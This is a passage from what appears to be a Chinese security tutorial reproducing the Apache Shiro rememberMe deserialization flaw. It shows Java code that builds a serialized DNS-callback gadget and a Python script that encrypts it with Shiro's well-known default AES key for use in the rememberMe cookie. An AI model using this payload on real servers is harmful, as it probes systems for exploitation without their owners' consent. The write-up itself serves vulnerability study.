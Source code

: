 ```
        hashCode.set(url,-1);//重新设置为-1，确保反序列化能触发

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("cc.txt"));
        objectOutputStream.writeObject(objectObjectHashMap); //将序列化内容写入bin文件中
    }
}
```  
  
执行完成后，生成cc.txt(序列化内容)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPn95ib9ymUmhveibln9jknMsQWeU2OyCy6g3Rxob4gnrFB9KMTxBeVgU6gWgfHq4ohVxBz3WaYxplQA/640?wx_fmt=png&from=appmsg "")  
  
然后再使用py脚本对序列化数据进行AES和base64加密  
```
from Crypto.Cipher import AES
import uuid
import base64


def convert_bin(file):
    with open(file, 'rb') as f:
        return f.read()


def AES_enc(data):
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    ciphertext = base64.b64encode(iv + encryptor.encrypt(pad(data))).decode()
    return ciphertext


if __name__ == "__main__":
    data = convert_bin("cc.txt")
    print(AES_enc(data))
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPn95ib9ymUmhveibln9jknMsQoibsGwbicu64ER3CWdHcIKJZVrlTFQDrqp0CUIrbvzmYv0AbAfgFuUyw/640?wx_fmt=png&from=appmsg "")  
  
运行后返回加密后的数据，我们把它替换到rememberMe字段中，测试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPn95ib9ymUmhveibln9jknMsQlwzegZDUIPXwbwVrLpQdma8wdHNfwhaE6Mw5AR3xdhfyCH4PLsJkSQ/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPn95ib9ymUmhveibln9jknMsQHwyUN5WsRqfN20zgOtHlkDJFRwxZQApOTF335FCFI157XR2iaW0s3Pg/640?wx_fmt=png&from=appmsg "")  
  
**dnslog**接收到请求，手工漏洞复现完成  
  
总结  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QtaE6uFmibPn95ib9ymUmhveibln9jknMsQlnlDDWnVf3lLPQKwV2tMecso0BbBNq5KMDKwl87klYcXjs65G1GWPA/640?wx_fmt=gif&from=appmsg "")  
  